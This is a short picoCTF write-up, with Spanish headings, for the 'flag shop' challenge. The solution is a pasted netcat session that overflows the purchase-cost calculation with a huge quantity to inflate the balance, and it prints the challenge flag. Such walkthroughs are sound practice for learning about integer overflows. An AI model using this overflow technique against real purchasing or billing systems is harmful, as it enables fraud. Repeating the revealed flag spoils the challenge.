 ## Descripción:
There's a flag shop selling stuff, can you buy a flag? [Source](https://jupiter.challenges.picoctf.org/static/dd28f0987f28c894f35d5d48564c3402/store.c). Connect with `nc jupiter.challenges.picoctf.org 44566`.

Hints:
Two's compliment can do some weird things when numbers get really big!

## Solución:
```
artacas-picoctf@webshell:~$ nc jupiter.challenges.picoctf.org 44566
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
300000000000  
Welcome to the flag exchange
We sell flags

3. Check Account Balance

4. Buy Flags

5. Exit

 Enter a menu selection
1



 Balance: 1100 


Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
3000000

The final cost is: -1594967296

Your current balance after transaction: 1594968396

Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
1



 Balance: 1594968396 


Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one1
YOUR FLAG IS: picoCTF{m0n3y_bag5_68d16363}
Welcome to the flag exchange
We sell flags

3. Check Account Balance

4. Buy Flags

5. Exit

 Enter a menu selection

```

## Notas:


